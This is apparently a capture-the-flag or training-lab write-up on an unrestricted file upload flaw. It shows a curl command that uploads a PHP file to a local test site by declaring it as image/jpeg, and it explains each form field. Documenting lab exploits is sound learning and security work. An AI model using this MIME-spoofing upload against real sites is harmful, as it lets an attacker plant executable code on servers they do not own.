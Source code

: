 # Unrestricted file upload

Wetried to upload several file with different MIME/extenstion and only .jpeg worked.
So we had to upload a file.php as file.jpeg

```bash
$> curl -X POST -F "uploaded=@image.php;type=image/jpeg" -F "MAX_FILE_SIZE=100000" -F "Upload=Upload"  http://localhost:9000/index.php\?page\=upload
```

The three arguments:  
- -F "uploaded=@image.php;type=image/jpeg", means the file named uploaded is type .jpeg  
- -F "MAX_FILE_SIZE=100000"
- -F "Upload=Upload  
we just set the value as it is in the site, tso the form is complete and we can send a request.
